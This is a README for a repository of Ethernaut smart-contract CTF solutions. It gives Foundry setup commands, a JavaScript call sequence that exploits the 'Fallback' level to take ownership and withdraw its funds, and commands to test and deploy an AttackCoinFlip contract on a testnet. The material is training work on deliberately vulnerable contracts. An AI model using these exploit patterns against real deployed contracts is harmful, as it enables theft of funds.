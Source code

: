 # Ethernaut

Solutions for some of the levels in the [Ethernaut](https://ethernaut.openzeppelin.com/) CTF game.<br>
Original source code copied from the [Ethernaut GitHub](https://github.com/OpenZeppelin/ethernaut/tree/master) and sometimes modified to fit the Foundry testing environment.<br>
All original source code licensed under [MIT license](./LICENSE).

```shell
export SEPOLIA_RPC_URL="..." #  https://chainlist.org/chain/11155111
export LOCAL_RPC_URL='http://localhost:8545'
```

Linking the `ethernaut` repo as a Forge package:

```shell
forge install https://github.com/OpenZeppelin/ethernaut
unlink ./04_Blockchain_for_Security_Tester/ethernaut/lib/ethernaut/client/src/contracts
```

Then fix the [remappings.txt](./remappings.txt) (autodetect doesn't work correctly in current (0.2.0 dbc48ea) Forge version). This is not perfect solution as there will be strange collisions if you try importing some contracts like `Ethernaut.sol`

## Fallback

```js
await contract.contribute.sendTransaction({ value: toWei("0.00001") });
await contract.getContribution().then(result => result.toString()); // convert from BigNumber object
await contract.sendTransaction({ value: toWei("0.00001") }); // fallback
await contract.withdraw()
```

---

## Coin Flip

### Test

```shell
$ forge test -vvv --match-path "test/AttackCoinFlip*"
```

### Deploy

```shell
$ forge create \
    --rpc-url "$SEPOLIA_RPC_URL" \
    --constructor-args $ADDRESS_CoinFlip '57896044618658097711785492504343953926634992332820282019728792003956564819968' \
    --interactive \
    src/AttackCoinFlip.sol:AttackCoinFlip
```
